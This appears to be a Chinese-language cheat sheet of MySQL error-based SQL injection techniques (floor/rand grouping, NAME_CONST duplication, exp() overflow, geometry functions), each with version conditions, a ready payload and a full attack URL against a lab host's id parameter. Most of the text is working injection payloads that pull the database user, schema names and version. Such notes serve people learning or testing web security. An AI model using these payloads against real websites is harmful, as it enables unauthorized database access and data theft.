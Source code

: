   ```

#### 使用条件

mysql > 5.0
floor 取整数部分
floor 报错只允许查询返回一行结果

#### payload

and (select 1 from (select count( *),concat(user(),floor(rand(0)* 2))x from information_schema.tables group by x)y)

```html
http://192.168.100.40:58222/string.php?id=1' and (select 1 from (select count( *),concat((select schema_name from information_schema.schemata limit 0,1),floor(rand(0)* 2))x from information_schema.tables group by x)y)%23
```

![image](assets/image-20240820193902-9ckig36.png)

### 列名重复报错注入

name_const()函数在低版本中可以支持5.0，但是在大于5.1小于5.5 中就不支持了

payload：`and select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))a)%23`

http://192.168.100.40:58222/string.php?id=1' and select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))a)%23

### 整形溢出报错注入

	条件：mysql 5.5.5及以上版本不支持
	说明：exp是以e为底的指数函数，由于数字太大会产生溢出。该函数会在参数大于709时溢出，产生报错
	Payload：and exp(~(select * from (select user()) a) )

http://192.168.100.40:64606/string.php?id=1%27%20and%20exp(~(select%20*%20from%20(select%20user())a))%23

![image](assets/image-20240820194529-rnl6u4b.png)

### 几何函数报错注入

条件：高版本MySQL无法得到数据 >5.5.47 失败
	相关函数：geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()
	说明：函数对参数要求是形如(1 2,3 3,2 2 1)这样几何数据，如果不满足要求，则会报错
	标准Payload：`select multipoint((select * from (select * from (select * from (select version())a)b)c))`
